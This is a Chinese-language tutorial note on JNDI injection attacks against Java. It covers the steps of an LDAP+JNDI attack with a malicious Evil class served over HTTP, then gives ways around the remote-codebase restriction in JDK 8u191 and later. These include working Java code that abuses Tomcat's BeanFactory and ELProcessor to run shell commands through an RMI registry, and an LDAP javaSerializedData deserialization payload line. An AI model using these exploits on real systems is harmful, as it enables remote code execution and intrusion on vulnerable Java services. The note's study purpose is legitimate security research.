

## LADP + JNDI 攻击

- 编译 Evil.java  
  > 注意Evil.java文件中不要写package XXX.XXX

- 开启python http.server服务，将编译后class文件发布到文件服务器中

- 开启服务端

- 启动客户端，成功执行恶意代码

> 注：在高版本JDK(8u191)以上攻击默认是无效的，因为限制了从远程加载类，具体配置名为`com.sun.jndi.ldap.object.trustURLCodebase`

> 本地不要保存Evil.java，要不然就会从本地记载Evil，这样高版本下也是可以加载的。

---

补充内容：  

## JNDI攻击高版本JDK绕过方式
#### 1. JNDI + RMI
思路：加载本地的factory class

该类必须实现 javax.naming.spi.ObjectFactory 接口，并且至少存在一个 getObjectInstance() 方法

利用tomcat8中的`org.apache.naming.factory.BeanFactory`

```java
Registry registry = LocateRegistry.createRegistry(rmi_port);
// 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
// tomcat中的类
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
// 强制将 'x' 属性的setter 从 'setX' 变为 'eval', 详细逻辑见 BeanFactory.getObjectInstance 代码
ref.add(new StringRefAddr("forceString", "KINGX=eval"));
// 利用表达式执行命令
ref.add(new StringRefAddr("KINGX", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','/Applications/Calculator.app/Contents/MacOS/Calculator']).start()\")"));

ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("Exploit", referenceWrapper);
```
#### 2. JNDI + LDAP
利用javaSerializedData属性

如果Java对象的 javaSerializedData 属性值不为空，则客户端的 obj.decodeObject() 方法就会对这个字段的内容进行反序列化。这样与反序列化漏洞配合
就可以进行攻击
```java
// value内容为base64编码的payload
e.addAttribute("javaSerializedData",Base64.decode("rO0ABXNyABFqYXZhLn....."));
```

参考文章：[如何绕过高版本JDK的限制进行JNDI注入利用](https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html)


